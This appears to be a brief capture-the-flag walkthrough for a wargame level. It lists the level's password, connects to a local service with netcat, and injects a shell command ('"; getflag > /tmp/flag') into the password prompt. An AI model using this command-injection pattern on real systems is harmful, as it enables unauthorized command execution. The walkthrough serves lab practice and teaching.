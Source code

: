 # Level 11

## Password
- > feulo4b72j7edeahuete3no7c

## Steps

### **1 -** Connect to the server

- > nc localhost 5151
  
### **2 -** Instead of the password, inject getflag command
- > "; getflag > /tmp/flag"